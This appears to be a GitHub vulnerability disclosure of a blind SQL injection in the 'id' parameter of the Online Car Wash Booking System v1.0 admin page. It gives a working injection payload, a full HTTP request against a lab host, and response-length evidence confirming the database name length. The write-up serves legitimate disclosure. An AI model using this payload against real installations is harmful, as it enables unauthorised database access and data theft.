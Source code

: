 # Online Car Wash Booking System v1.0 by oretnom23 has SQL injection

vendors: https://www.sourcecodester.com/php/15274/online-car-wash-booking-system-phpoop-free-source-code.html

Vulnerability File: /ocwbs/admin/services/manage_service.php?id=

Vulnerability location: /ocwbs/admin/services/manage_service.php?id=, id

Current database name: ocwbs_db,length is 8

[+] Payload: /ocwbs/admin/services/manage_service.php?id=2%27%20and%20length(database())%20=8--+ // Leak place ---> id

```sql
GET /ocwbs/admin/services/manage_service.php?id=2%27%20and%20length(database())%20=8--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=qr1o26kvu55cqqitadqht6jna5
Connection: close
```

When length (database ()) = 7, Content-Length: 2217
![image](https://user-images.githubusercontent.com/54017627/169305054-fb9b249b-9648-41d3-918d-e00ee0f299e6.png)

![image](https://user-images.githubusercontent.com/54017627/169304307-0ea9ecbb-d874-419f-aa46-99888f8e22f5.png)

When length (database ()) = 8, Content-Length: 2441
![image](https://user-images.githubusercontent.com/54017627/169305091-ad42103c-84d1-417a-9b55-7bd6875cf054.png)

![image](https://user-images.githubusercontent.com/54017627/169304269-eb6cbad5-db19-4db9-b016-13e887f70465.png)
